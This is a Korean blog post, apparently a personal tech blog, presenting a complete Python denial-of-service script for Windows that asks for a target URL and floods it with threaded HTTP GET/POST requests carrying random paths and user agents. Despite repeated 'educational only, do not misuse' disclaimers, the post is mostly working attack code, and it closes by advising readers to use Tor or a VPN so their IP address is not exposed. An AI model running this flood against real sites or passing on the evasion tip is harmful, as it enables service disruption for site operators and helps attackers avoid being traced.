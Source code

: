```yaml
---
layout: single
title:  "윈도우에서 디도스 날려보기"
categories: "Secure"
tag: "Secure"
toc: true
author_profile: false
sidebar:
    nav: "docs"
---
```


# 윈도우에서 디도스를 날려보자.
일단 이거 불법이니까, 절대 사설 홈페이지에 날리면 안된다.  
이런 식으로 진행이 된다 정도만 알아보는 식으로 배우는 걸로 하고, 절대 이 코드를 악용하거나 그러지 않길 바란다.    

디도스는, 한 주소에 패킷을 미친듯이 날려 시스템 과부화를 유도하는 기법이다.  
아래와 같은 코드를 통해서, 디도스를 날릴 수 있다.  
다시 한번 말 하지만, 절대 악용하지 말자. 그냥 가지고만 있던지 그래야지 사용해선 안된다.  

몇개의 패키지가 환경의 영향을 많이 받기 때문에, 다음의 코드는 윈도우 환경이 아니면 실행될 수 없게 하였다.  
중간의 로직을 변경하는 것으로 리눅스 환경에서도 실행할 수 있지만, 할꺼면 다른 패키지들 다시 알아보고 해야 할거다.  

```python
# 버전 정보
version = '3.0'

# 필요한 라이브러리 import
import os
import sys
import re
import signal
import socket
from random import randrange, choice
from threading import Thread
from argparse import ArgumentParser, RawTextHelpFormatter  # 명령어 인자 처리용

# 운영 체제가 윈도우인지 확인
if os.name != 'nt':
    sys.exit('[-] 이 스크립트는 윈도우 전용입니다.')

# 추가 모듈 설치 확인
try:
    import requests, colorama  # HTTP 요청 및 터미널 색상 출력을 위한 모듈
    from termcolor import colored, cprint  # 터미널에 컬러 출력
except ImportError:
    os.system('pip install colorama requests termcolor')
    sys.exit('[+] 필수 모듈을 설치하였습니다.')

# 윈도우의 경우 colorama 모듈 초기화
colorama.init()

# 시그널 핸들링 설정
signal.signal(signal.SIGINT, signal.SIG_DFL)

# 공격 대상 URL 입력 받기
def get_target_url():
    target_url = input('공격 대상 URL을 입력하세요: ')
    return target_url

# 가짜 IP 주소 생성 함수
def fake_ip():
    while True:
        ips = [str(randrange(0, 256)) for _ in range(4)]
        if ips[0] == "127":
            continue
        fkip = '.'.join(ips)
        break
    return fkip

# 대상 서버 확인 함수
def check_target(tgt):
    try:
        ip = socket.gethostbyname(tgt)
    except socket.gaierror:
        sys.exit(cprint('[-] 호스트를 찾을 수 없습니다.', 'red'))
    return ip

# User-Agent 목록 불러오기 함수
def add_useragent():
    try:
        with open("ua.txt", "r") as fp:
            uagents = re.findall(r"(.+)\n", fp.read())
    except FileNotFoundError:
        cprint('[-] \'ua.txt\' 파일을 찾을 수 없습니다.', 'yellow')
        return []
    return uagents

# Pyslow 공격 클래스
class Pyslow:
    def __init__(self, tgt, port, threads):
        self.tgt = tgt
        self.port = port
        self.threads = threads

    # 패킷 생성 함수
    def mypkt(self):
        text = choice(['GET', 'POST']) + ' /' + str(randrange(1, 999999999)) + ' HTTP/1.1\r\n' +\
               'Host: ' + self.tgt + '\r\n' +\
               'User-Agent: ' + choice(add_useragent()) + '\r\n' +\
               'Content-Length: 42\r\n'
        return text.encode()

    # 소켓 연결 생성 및 패킷 전송 함수
    def send_packet(self):
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((self.tgt, self.port))
            sock.send(self.mypkt())
            sock.close()
        except Exception as e:
            cprint(f'[-] 연결 실패: {e}', 'red')

    # 공격 시작 함수
    def start_attack(self):
        threads = []
        for _ in range(self.threads):
            thread = Thread(target=self.send_packet)
            thread.start()
            threads.append(thread)
        for thread in threads:
            thread.join()

if __name__ == "__main__":
    target_url = get_target_url()
    target_ip = check_target(target_url)

    print(f'[+] 공격할 대상: {target_url} ({target_ip})')

    port = 80  # 기본 포트 번호 (HTTP)
    threads = 100  # 사용할 스레드 수
    ddos = Pyslow(target_ip, port, threads)
    ddos.start_attack()

```  

### 위의 코드는 자신의 URL을 숨길 수 없다.
따라서, tor 브라우저나, vpn을 사용해서 자신의 아이피를 들키지 않게끔 해야 노출을 막을 수 있다.  
위 코드는 교육용이지 공격용이 아니다. 그것만은 활실히 하자.  